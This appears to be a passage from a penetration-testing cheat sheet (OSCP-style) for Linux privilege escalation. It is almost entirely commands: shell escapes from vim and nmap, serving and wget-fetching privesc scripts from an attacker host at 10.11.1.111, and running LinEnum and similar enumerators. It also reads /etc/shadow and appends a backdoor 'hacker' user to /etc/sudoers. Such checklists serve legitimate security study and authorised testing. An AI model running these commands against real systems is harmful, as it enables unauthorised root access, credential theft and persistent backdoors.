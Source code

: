 ```
:!bash
:set shell=/bin/bash:shell
(From within nmap)
!sh

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set up webserver
cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080; python3 -m http.server 80

# Download all files
wget http://10.11.1.111:8080/ -r; mv 10.11.1.111:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard

# Writable directories
/tmp
/var/tmp

# Add user to sudoers
useradd hacker
passwd hacker
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```

### Basic info

```
which awk perl python python3 ruby gcc cc nano vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
uname -a
env
id
cat /proc/version
cat /etc/issue
cat /etc/passwd
cat /etc/group
cat /etc/shadow
cat /etc/hosts

# Users with login
grep -vE "nologin" /etc/passwd

# Priv Enumeration Scripts
upload /unix-privesc-check
upload /root/Desktop/Backup/Tools/Linux_privesc_tools/linuxprivchecker.py ./
upload /root/Desktop/Backup/Tools/Linux_privesc_tools/LinEnum.sh ./

python linprivchecker.py extended
./LinEnum.sh -t -k password
unix-privesc-check
```
